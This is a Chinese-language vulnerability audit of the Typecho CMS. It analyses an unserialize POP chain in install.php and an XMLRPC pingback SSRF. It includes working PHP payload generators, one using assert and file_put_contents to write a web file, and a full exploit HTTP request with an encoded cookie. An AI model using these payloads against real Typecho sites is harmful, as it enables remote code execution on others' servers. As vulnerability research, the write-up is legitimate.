# typcho 审计

## 反序列化漏洞

### 0x01 分析

在`install.php` 228-235中存在下面这段代码

```php
<?php else : ?>
    <?php
    $config = unserialize(base64_decode(Typecho_Cookie::get('__typecho_config')));
    Typecho_Cookie::delete('__typecho_config');
    $db = new Typecho_Db($config['adapter'], $config['prefix']);
    $db->addServer($config, Typecho_Db::READ | Typecho_Db::WRITE);
    Typecho_Db::set($db);
    ?>
```

这里的unserialize很明显的反序列化，在PHP反序列化中，一般我们会去寻找魔术方法，构造POP链，一般是`__destruct`,`__wakeup`,`__toString`这三个。

`__destruct` 有两处。跟了进去没有看到可利用的地方。



`__wakeup`没有。



跟着代码详细分析下，这里base64解密通过cookie传入的数据，然后new了一个Typecho_Db。

```php
$config = unserialize(base64_decode(Typecho_Cookie::get('__typecho_config')));
Typecho_Cookie::delete('__typecho_config');
$db = new Typecho_Db($config['adapter'], $config['prefix']);
```

跟进这个Typecho_Db

```php
public function __construct($adapterName, $prefix = 'typecho_')
{
    /** 获取适配器名称 */
    $this->_adapterName = $adapterName;

    /** 数据库适配器 */
    $adapterName = 'Typecho_Db_Adapter_' . $adapterName;

    if (!call_user_func(array($adapterName, 'isAvailable'))) {
        throw new Typecho_Db_Exception("Adapter {$adapterName} is not available");
    }

    $this->_prefix = $prefix;

    /** 初始化内部变量 */
    $this->_pool = array();
    $this->_connectedPool = array();
    $this->_config = array();

    //实例化适配器对象
    $this->_adapter = new $adapterName();
}
```

这里将`Typecho_Db_Adapter_`和`$adapterName`拼接在一起。`__toString()` 的触发条件是把类当作字符串使用时触发,返回值需要为字符串。所以如果`$adapterName`传入的是个实例化对象，就会触发该对象的`__toString()`魔术方法。

全局搜索下`__toString()`，发现三个地方。稍微总结一下。第一处Config.php的`__toString` 函数中是一个序列化方法，第二处Query.php文件是一个构造查询语句的过程, 第三处在Feed.php中构造Feed输出的内容。这里面都没有直接的危险函数，所以需要进一步构造。



跟进var/Typecho/Config.php，没又发现可利用点。

```php
public function __toString()
{
    return serialize($this->_currentConfig);
}
```
跟进/var/Typecho/Db/Query.php

```php
public function __toString()
{
    switch ($this->_sqlPreBuild['action']) {
        case Typecho_Db::SELECT:
            return $this->_adapter->parseSelect($this->_sqlPreBuild);
        case Typecho_Db::INSERT:
            return 'INSERT INTO '
            . $this->_sqlPreBuild['table']
            . '(' . implode(' , ', array_keys($this->_sqlPreBuild['rows'])) . ')'
            . ' VALUES '
            . '(' . implode(' , ', array_values($this->_sqlPreBuild['rows'])) . ')'
            . $this->_sqlPreBuild['limit'];
        case Typecho_Db::DELETE:
            return 'DELETE FROM '
            . $this->_sqlPreBuild['table']
            . $this->_sqlPreBuild['where'];
        case Typecho_Db::UPDATE:
            $columns = array();
            if (isset($this->_sqlPreBuild['rows'])) {
                foreach ($this->_sqlPreBuild['rows'] as $key => $val) {
                    $columns[] = "$key = $val";
                }
            }

            return 'UPDATE '
            . $this->_sqlPreBuild['table']
            . ' SET ' . implode(' , ', $columns)
            . $this->_sqlPreBuild['where'];
        default:
            return NULL;
```
第492行`$this->_adapter`调用`parseSelect()`方法，如果该实例化对象在对象上下文中调用不可访问的方法时触发，便会触发`__call()`魔术方法。

全局搜索`__call()`



一个个跟进，在var/Typecho/Plugin.php的479-491，我们看到`call_user_func_array`

```php
 public function __call($component, $args)
    {
        $component = $this->_handle . ':' . $component;
        $last = count($args);
        $args[$last] = $last > 0 ? $args[0] : false;

        if (isset(self::$_plugins['handles'][$component])) {
            $args[$last] = NULL;
            $this->_signal = true;
            foreach (self::$_plugins['handles'][$component] as $callback) {
                $args[$last] = call_user_func_array($callback, $args);
            }
        }
```

据我所知，call_user_func_array可能会造成代码注入的问题，分析一下。

`$component`是调用失败的方法名，`$args`是调用时的参数，均可控，而`__call`在对象上下文中调用不可访问的方法时触发。`$args`加上我们构造的payload，最少是个长度为2的数组，但是483行又给数组加了一个长度，导致`$args`长度至少为3，那么`call_user_func_array()`便无法正常执行。所以此路就不通了。

跟进var/Typecho/Feed.php

```php
foreach ($this->_items as $item) {
                $content .= '<item>' . self::EOL;
                $content .= '<title>' . htmlspecialchars($item['title']) . '</title>' . self::EOL;
                $content .= '<link>' . $item['link'] . '</link>' . self::EOL;
                $content .= '<guid>' . $item['link'] . '</guid>' . self::EOL;
                $content .= '<pubDate>' . $this->dateFormat($item['date']) . '</pubDate>' . self::EOL;
                $content .= '<dc:creator>' . htmlspecialchars($item['author']->screenName) . '</dc:creator>' . self::EOL;

                if (!empty($item['category']) && is_array($item['category'])) {
                    foreach ($item['category'] as $category) {
                        $content .= '<category><![CDATA[' . $category['name'] . ']]></category>' . self::EOL;
                    }
                }

                if (!empty($item['excerpt'])) {
                    $content .= '<description><![CDATA[' . strip_tags($item['excerpt']) . ']]></description>' . self::EOL;
                }

                if (!empty($item['content'])) {
                    $content .= '<content:encoded xml:lang="' . $this->_lang . '"><![CDATA['
                    . self::EOL .
                    $item['content'] . self::EOL .
                    ']]></content:encoded>' . self::EOL;
                }
```

我们看到，这里调用了一个item元素里的一个属性，如果这个属性是从某个类的不可访问属性里获取的，那么会自动调用`__get`方法。



全局搜索`__get()`：



在var/Typecho/Request.php处发现可利用，跟进一下：

```php
public function __get($key)
{
    return $this->get($key);
}
```
这里的`__get`调用get，跟进get。

```php
public function get($key, $default = NULL)
{
    switch (true) {
        case isset($this->_params[$key]):
            $value = $this->_params[$key];
            break;
        case isset(self::$_httpParams[$key]):
            $value = self::$_httpParams[$key];
            break;
        default:
            $value = $default;
            break;
    }

    $value = !is_array($value) && strlen($value) > 0 ? $value : $default;
    return $this->_applyFilter($value);
}
```

get方法主要通过key值获取`$this->_params`中键的值, 接着调用了`_applyFilter`方法。跟进`_applyFilter`：

```php
private function _applyFilter($value)
{
    if ($this->_filter) {
        foreach ($this->_filter as $filter) {
            $value = is_array($value) ? array_map($filter, $value) :
            call_user_func($filter, $value);
        }

        $this->_filter = array();
    }

    return $value;
}
```

这里的关键是`call_user_func($filter, $value);`和`array_map($filter, $value)`都会造成任意代码执行。

### 0x02 构造poc

这里要转到我们刚刚漏洞点的话，有些前置要求。

```php
session_start();

//判断是否已经安装
if (!isset($_GET['finish']) && file_exists(__TYPECHO_ROOT_DIR__ . '/config.inc.php') && empty($_SESSION['typecho'])) {
    exit;
}

// 挡掉可能的跨站请求
if (!empty($_GET) || !empty($_POST)) {
    if (empty($_SERVER['HTTP_REFERER'])) {
        exit;
    }

    $parts = parse_url($_SERVER['HTTP_REFERER']);
	if (!empty($parts['port']) && $parts['port'] != 80 && !Typecho_Common::isAppEngine()) {
        $parts['host'] = "{$parts['host']}:{$parts['port']}";
    }

    if (empty($parts['host']) || $_SERVER['HTTP_HOST'] != $parts['host']) {
        exit;
    }
}
```

这里只要传入GET参数finish，并设置referer为站内url即可。回溯整个利用链

我们可以通过设置`item['author']`来控制`Typecho_Request`类中的私有变量，这样类中的`_filter`和`_params['screenName']`都可控，`call_user_func`函数变量可控，任意代码执行。

```php
<?php

class Typecho_Feed{
    private $_type = 'ATOM 1.0';
    private $_charset = 'UTF-8';
    private $_lang = 'zh';
    private $_items = array();

    public function addItem(array $item){
        $this->_items[] = $item;
    }
}

class Typecho_Request{
    private $_params = array('screenName'=>'file_put_contents(\'l1nk3r.php\', \'<?php @phpinfo();?>\')');
    private $_filter = array('assert');
}

$payload1 = new Typecho_Feed();
$payload2 = new Typecho_Request();
$payload1->addItem(array('author' => $payload2));
$exp = array('adapter' => $payload1, 'prefix' => 'typecho');
echo base64_encode(serialize($exp));
?>
```

```
GET /1/typecho/install.php?finish=1  HTTP/1.1
Host: 192.168.248.129
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:47.0) Gecko/20100101 Firefox/47.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Cookie: __typecho_config=YToyOntzOjc6ImFkYXB0ZXIiO086MTI6IlR5cGVjaG9fRmVlZCI6NDp7czoxOToiAFR5cGVjaG9fRmVlZABfdHlwZSI7czo4OiJBVE9NIDEuMCI7czoyMjoiAFR5cGVjaG9fRmVlZABfY2hhcnNldCI7czo1OiJVVEYtOCI7czoxOToiAFR5cGVjaG9fRmVlZABfbGFuZyI7czoyOiJ6aCI7czoyMDoiAFR5cGVjaG9fRmVlZABfaXRlbXMiO2E6MTp7aTowO2E6MTp7czo2OiJhdXRob3IiO086MTU6IlR5cGVjaG9fUmVxdWVzdCI6Mjp7czoyNDoiAFR5cGVjaG9fUmVxdWVzdABfcGFyYW1zIjthOjE6e3M6MTA6InNjcmVlbk5hbWUiO3M6NTQ6ImZpbGVfcHV0X2NvbnRlbnRzKCdsMW5rM3IucGhwJywgJzw/cGhwIEBwaHBpbmZvKCk7Pz4nKSI7fXM6MjQ6IgBUeXBlY2hvX1JlcXVlc3QAX2ZpbHRlciI7YToxOntpOjA7czo2OiJhc3NlcnQiO319fX19czo2OiJwcmVmaXgiO3M6NzoidHlwZWNobyI7fQ==
Referer:http://192.168.248.129/1/typecho/install.php
Connection: close
```



### 0x03 后记

但是这个payload有点问题，但是当我们按照上面的所有流程构造poc之后，发请求到服务器，却会返回500错误。



这里的开头有一个`ob_start()`。在php.net上关于`ob_start`的解释是这样的。



因为我们上面对象注入的代码触发了原本的exception，导致`ob_end_clean()`执行，原本的输出会在缓冲区被清理。

这里有两个办法:

- 因为`call_user_func`函数处是一个循环，我们可以通过设置数组来控制第二次执行的函数，然后找一处exit跳出，缓冲区中的数据就会被输出出来。
-  第二个办法就是在命令执行之后，想办法造成一个报错，语句报错就会强制停止，这样缓冲区中的数据仍然会被输出出来。 

知道创宇的LoRexxar给出了一种POC

```php
<?php
class Typecho_Request
{
    private $_params = array();
    private $_filter = array();

    public function __construct()
    {
        // $this->_params['screenName'] = 'whoami';
        $this->_params['screenName'] = -1;
        $this->_filter[0] = 'phpinfo';
    }
}

class Typecho_Feed
{
    const RSS2 = 'RSS 2.0';
    /** 定义ATOM 1.0类型 */
    const ATOM1 = 'ATOM 1.0';
    /** 定义RSS时间格式 */
    const DATE_RFC822 = 'r';
    /** 定义ATOM时间格式 */
    const DATE_W3CDTF = 'c';
    /** 定义行结束符 */
    const EOL = "\n";
    private $_type;
    private $_items = array();
    public $dateFormat;

    public function __construct()
    {
        $this->_type = self::RSS2;
        $item['link'] = '1';
        $item['title'] = '2';
        $item['date'] = 1507720298;
        $item['author'] = new Typecho_Request();
        $item['category'] = array(new Typecho_Request());

        $this->_items[0] = $item;
    }
}

$x = new Typecho_Feed();
$a = array(
    'host' => 'localhost',
    'user' => 'xxxxxx',
    'charset' => 'utf8',
    'port' => '3306',
    'database' => 'typecho',
    'adapter' => $x,
    'prefix' => 'typecho_'
);
echo urlencode(base64_encode(serialize($a)));
?>
```

### 0x04 Refer

[Typecho 前台 getshell 漏洞分析](https://paper.seebug.org/424/)

## SSRF 漏洞

### 0x01 分析

问题出在了和wordpress一样的`XMLRPC`上。XMLRPC这个接口在Typecho 1.0版本中是默认有的。

XMLRPC里的`Pingback`协议，这个协议诞生在`Web 2.0`概念诞生之初，由于在互联网世界各个博客站点之间是独立的存在，而它们之间又经常存在互相引用的情况。当你在写的文章发表后，如果文中引用了某个链接，系统会自动向那个链接发一个`PING`，告诉对方我引用了这篇文章，地址是: xxx。对方收到这个`PING`以后会根据你给的原文地址回去检验一下是否存在这个引用，这就是一次`BACK`。检验完以后，会把这次引用记录下来，大家经常在`Typecho`或者`WordPress`之类博客评论列表里看到的引用记录，就是这么来的。

这里如果在`BACK`对原文地址检验的时候，使用了cURL或者socket对原文地址发起网络请求，由于未做任何限制，导致SSRF漏洞。

漏洞点在于var/Widget/XmlRpc.php 2046行

```php
public function pingbackPing($source, $target)
    {
        /** 检查源地址是否存在*/
        if (!($http = Typecho_Http_Client::get())) {
            return new IXR_Error(16, _t('源地址服务器错误'));
        }

        try {

            $http->setTimeout(5)->send($source);
            $response = $http->getResponseBody();

            if (200 == $http->getResponseStatus()) {

                if (!$http->getResponseHeader('x-pingback')) {
                    preg_match_all("/<link[^>]*rel=[\"']([^\"']*)[\"'][^>]*href=[\"']([^\"']*)[\"'][^>]*>/i", $response, $out);
                    if (!isset($out[1]['pingback'])) {
                        return new IXR_Error(50, _t('源地址不支持PingBack'));
                    }
                }

            } else {
                return new IXR_Error(16, _t('源地址服务器错误'));
            }

        } catch (Exception $e) {
            return new IXR_Error(16, _t('源地址服务器错误'));
        }
```

这里直接调用Typecho_Http_Client类的get方法，返回 发起HTTP请求的类。如果失败，直接返回错误，整个调用结束。

```php
 /** 检查源地址是否存在*/
        if (!($http = Typecho_Http_Client::get())) {
            return new IXR_Error(16, _t('源地址服务器错误'));
        }
```

 跟进get方法。

```php
public static function get()
{
    $adapters = func_get_args();

    if (empty($adapters)) {
        $adapters = array();
        $adapterFiles = glob(dirname(__FILE__) . '/Client/Adapter/*.php');
        foreach ($adapterFiles as $file) {
            $adapters[] = substr(basename($file), 0, -4);
        }
    }

    foreach ($adapters as $adapter) {
        $adapterName = 'Typecho_Http_Client_Adapter_' . $adapter;
        if (Typecho_Common::isAvailableClass($adapterName) && call_user_func(array($adapterName, 'isAvailable'))) {
            return new $adapterName();
        }
    }
```

这里`$adapterFiles = glob(dirname(__FILE__) . '/Client/Adapter/*.php')`

目的是为了查找Client/Adapter/目录下的两个文件，一个是curl.php，一个是socket.php。从Client/Adapter/目录中，添加这两个发起HTTP请求的类，一个是Curl，另一个是Socket。



回到XmlRpc.php,`$http->setTimeout(5)->send($source);`该行代码用上面返回的HTTP类调用send方法发起HTTP请求。跟进send函数



跟进httpsend函数，位置`var/Typecho/Http/Client/Adapter/Curl.php`

```php
public function httpSend($url)
{
    $ch = curl_init();

    if ($this->ip) {
        $url = $this->scheme . '://' . $this->ip . $this->path;
        $this->headers['Rfc'] = $this->method . ' ' . $this->path . ' ' . $this->rfc;
        $this->headers['Host'] = $this->host;
    }

    curl_setopt($ch, CURLOPT_URL, $url);
    curl_setopt($ch, CURLOPT_PORT, $this->port);
    curl_setopt($ch, CURLOPT_HEADER, true);
    curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
    curl_setopt($ch, CURLOPT_FRESH_CONNECT, true);
    curl_setopt($ch, CURLOPT_TIMEOUT, $this->timeout);

    curl_setopt($ch, CURLOPT_SSL_VERIFYPEER, false);
    curl_setopt($ch, CURLOPT_SSL_VERIFYHOST, false);
```

这里没有对地址进行过滤，显然就有SSRF的问题了

### 0x02 构造poc

由于是cURL造成的SSRF利用姿势较多

这里梳理一下代码逻辑，这里有两种发起HTTP请求的办法，一种是Curl，另一种是fsockopen。如果Curl可用，则优先使用。如果cURL返回失败或者返回成功后但状态码不是200，返回`源地址服务器错误`。如果cURL返回成功，并且状态码为200，如果没有`x-pingback`头，返回`源地址不支持PingBack`，如果有`x-pingback`头，就继续往下判断。

